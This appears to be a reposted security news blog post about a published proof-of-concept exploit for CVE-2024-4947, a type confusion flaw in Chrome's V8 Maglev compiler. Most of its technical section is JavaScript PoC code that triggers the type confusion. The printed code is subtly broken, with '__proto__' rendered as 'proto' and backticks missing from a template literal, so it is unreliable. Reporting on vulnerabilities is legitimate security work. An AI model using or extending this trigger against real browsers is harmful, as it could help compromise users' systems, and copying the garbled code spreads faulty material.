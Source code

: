 ```yaml
---
layout: post
title: PoC Exploit Published for 0-day Vulnerability 
subtitle: Google Chrome
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [books, test]
author: Michel Cornejo
---
```


A proof-of-concept (PoC) exploit for a critical zero-day vulnerability (CVE-2024-4947) in Google Chrome has been made public.

The potential for exploitation of this vulnerability, which impacts the V8 JavaScript engine, has generated considerable apprehension among members of the cybersecurity community.

## Details Of CVE-2024-4947

he CVE-2024-4947 vulnerability arises from erroneous AccessInfo values assigned to module namespace objects within the V8 engine.

This vulnerability may cause type confusion in the Just-In-Time (JIT) compiler Maglev, which V8 utilizes.

Type confusion vulnerabilities manifest when an application declares a variable or object as one type but subsequently manipulates its type, as reported by GitHub. This can potentially result in security breaches and erratic behavior.

## Technical Breakdown

The matter transpires when the V8 engine processes AccessInfo for module namespace objects in an erroneous manner, leading to a misinterpretation of the types of these objects by the Maglev JIT compiler.

An assailant may exploit this misunderstanding to execute arbitrary code within the browser’s context, potentially resulting in a complete compromise of the system.

```javascript
// run with: /d8 --allow-natives-syntax --maglev --expose-gc --soft-abort --trace-deopt 22.mjs

import * as ns from "./22.mjs";

export let c = 0;

function to_fast(o) {
var dummy = {'unique':5};
dummy.proto = o;
dummy.proto = o; //OptimizeAsFastPrototype
}

to_fast(ns);

function store(target, v) {
target.c = v;
}

function createObject() {
let a = {};
a.i1 = 1;
a.i2 = 1;
a.i3 = 1;
a.i4 = 1;
// -----------------
for (let i = 0; i < 8; i++) {
a[p${i}] = 1;
}
return a;
}

function init() {
let a = createObject();
a.proto = ns;
// %DebugPrint(a);
return a;
}

(function() {
%PrepareFunctionForOptimization(store);
store(init(), 0);
%OptimizeMaglevOnNextCall(store);
store(init(), 0);
})();

function confuse_properties_map(arg) {
store(arg, 0x1);
}

let a = init();

let arr = [];

arr.push(1.1);

let arr2 = [{}];

confuse_properties_map(a);

gc();

// %DebugPrint(a);
// %DebugPrint(arr);

a.p5 = 1024;
a.p7 = 1024;

%DebugPrint(arr);

// %SystemBreak();
```
The PoC exploit illustrates how a malevolent actor can exploit this susceptibility to execute arbitrary code.

The methodology entails developing a malevolent webpage that, upon user interaction, activates the type confusion vulnerability in the V8 engine, thereby granting the assailant permission to execute illicit code on the target’s system.

![exploit](/assets/img/exploit.png)

Considering the pervasive utilization of Google Chrome, this susceptibility presents a substantial hazard to users across the globe.

Users must immediately update their browsers to the most recent version whenever a security upgrade is available.

Organizations should also consider implementing additional security measures, such as intrusion detection systems and web application firewalls, to reduce the risk of exploitation.

A proof-of-concept exploit for CVE-2024-4947 has been made public, highlighting the persistent difficulties in securing contemporary web browsers.

Maintaining a state of constant vigilance and proactivity in the face of security threats is critical for both developers and users, as malicious actors persist in discovering and capitalizing on weaknesses in widely utilized software.
